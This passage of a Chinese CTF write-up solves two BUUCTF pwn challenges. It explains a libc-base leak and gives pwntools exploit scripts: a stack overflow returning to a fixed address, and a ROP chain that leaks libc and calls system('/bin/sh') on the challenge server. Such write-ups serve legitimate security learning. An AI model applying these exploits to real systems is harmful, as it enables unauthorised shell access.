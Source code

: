 ```python
io.interactive()
```
# buu029-jarvisoj_tell_me_something
```python
from pwn import *
# io = process('./pwn')
io = remote('node4.buuoj.cn', 27850)
io.sendlineafter(b'Input your message:\n', cyclic(0x88) + p64(0x400620))
io.interactive()
```
# buu030-ciscn_2019_s_3
这道题一看汇编，明摆着是考我们系统调用。其中有mov rax, 3bh，3b就是execve的系统调用号。之后需要在rdi中传入'/bin/sh'的地址，但是原程序中并没有这个字符串。

目前有一个主要的问题：如果要自己构造'/bin/sh'或者是查找libc，如何获取这个字符串的地址？通过ret2csu我们可以很容易地将任意值pop到rdi中，所以关键就在于如何获取字符串地址。如果这个字符串自己构造，栈上的地址一般都不容易获取到。如果要查找libc，那么首先要获取libc基址。前面已经提到我们无法直接通过sys_write打印，但同时我们也不要忘记，返回地址不一定要是函数的开头。如果在读写函数返回后编写gadget，直接返回到写30字节的地方，那么我们就能够直接进行打印，此时write打印出的数据中有部分是我们没有修改的，且返回之后我们能够将rsp抬高8字节获取到更加靠前的栈区内容，也就有机会能够获取到libc的基址。

![](3.png)
上图中libc的基址正好在打印地址之后0x30的位置，所以还需要再返回两次，与第28题的方法相同。这种方法笔者称之为碰瓷流，与这道题的出题人本意不符。

exp：（调用system('/bin/sh')）
```python
from pwn import *
from LibcSearcher import *
context(arch='amd64', log_level='debug')

# io = process('./pwn')
io = remote('node4.buuoj.cn', 28675)

write = 0x400503
read_write = 0x4004ed
poprdi_ret = 0x4005a3

payload = cyclic(0x10)
payload += p64(write)	# We use write twice to make rsp go up to reach the '__libc_start_main'
payload += p64(write)
payload += p64(read_write)

io.sendline(payload)

libc_start_main = u64(io.recv()[-8:]) - 231
print(hex(libc_start_main))
libc = LibcSearcher('__libc_start_main', libc_start_main)
base = libc_start_main - libc.dump('__libc_start_main')

sys = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')

payload = cyclic(0x10)
payload += p64(poprdi_ret)
payload += p64(binsh)
payload += p64(sys)

io.sendline(payload)

io.interactive()
```
